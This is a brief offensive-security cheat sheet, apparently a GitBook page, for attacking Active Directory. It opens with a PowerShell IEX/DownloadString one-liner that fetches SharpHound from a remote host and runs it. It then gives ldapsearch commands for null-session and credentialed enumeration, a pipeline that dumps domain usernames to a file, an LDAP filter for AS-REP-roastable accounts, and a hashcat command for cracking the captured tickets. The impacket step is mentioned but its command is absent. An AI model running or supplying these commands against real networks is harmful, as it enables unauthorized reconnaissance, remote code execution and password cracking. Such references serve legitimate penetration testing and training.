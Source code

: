 ## BLOODHOUND

### Ingestor Launch

{% code overflow="wrap" %}
```powershell
IEX(New-Object Net.WebClient).DownloadString('http://10.10.10.123/ps/SharpHound.ps1');
Invoke-BloodHound -CollectionMethod All -CompressData -SkipPing;
```
{% endcode %}

## LDAP ENUMERATION

### Null Sessions

{% code overflow="wrap" %}
```sh
ldapsearch -x -h 10.10.10.123 -D '' -w '' -b "DC=BURMAT,DC=LOCAL"
```
{% endcode %}

### Queries

Below are some useful LDAP queries that will help you enumerate a system. Some of them require a valid username/password to get more information. My go-to for these queries is `ldapsearch`.&#x20;

Use the following command and fill in your LDAP query in the placeholder:

{% code overflow="wrap" %}
```bash
ldapsearch -LLL -x -H ldap://burmat.local -D "svc-burmat" -w "burmat123$" -b "dc=burmat,dc=LOCAL" "<LDAP QUERY HERE>"
```
{% endcode %}

#### Domain Usernames

Get usernames into a list by enumerating user objects:

{% code overflow="wrap" %}
```bash
ldapsearch -x -h burmat.local -b "dc=burmat,dc=local" -s sub "(objectclass=user)" | grep sAMAccountName | cut -d " " -f 2 > users.txt
```
{% endcode %}

#### ASREPRoast Accounts

```
## ldap filter to find accounts susceptible to this:
"(&(samAccountType=805306368)(userAccountControl:1.2.840.113556.1.4.803:=4194304))"

## generate a list of user accounts and use impacket to exploit:

## and if you get a ticket, you can crack it:
hashcat -m 18200 -a 0 --force user.hash /usr/share/wordlists/rockyou.txt
```
